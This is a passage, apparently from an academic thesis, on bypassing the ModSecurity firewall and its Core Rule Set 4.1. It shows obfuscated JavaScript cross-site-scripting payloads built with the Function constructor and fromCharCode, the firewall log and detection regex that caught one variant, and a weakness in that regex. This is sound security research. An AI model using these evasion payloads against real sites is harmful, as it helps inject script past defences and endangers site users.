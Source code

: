 was split into two parts using the \verb|Function()| constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypassed the ModSecurity firewall configured to use the \acrshort{crs} 4.1. In order to make this payload execute, another use of the \verb|Function()| constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

The regular expression used in this rule:

\begin{lstlisting}[style=basicStyle]
(?:\((?:.+\)(?:[\"'][\-0-9A-Z_a-z]+[\"'])?\(.+|[^\)]*string[^\)]*\)[\s\x0b\"'\-\.0-9A-\[\]_a-\{\}]+\([^\)]*)|(?:\[[0-9]+\]|\{[0-9]+\}|\$[^\(\),\.\/;\x5c]+|[\"'][\-0-9A-Z\x5c_a-z]+[\"'])\(.+)\);
\end{lstlisting}

requires a semicolon to finish the statement. In JavaScript, cases exist, where this semicolon is not neccessary. One such case would be the existance of a semicolon finished statement in the code just before where the payload is injected and a newline followed by another function call or variable assignment in the code after where the payload is injected. A case where the semicolon would be neccessary to achieve code execution is the following:

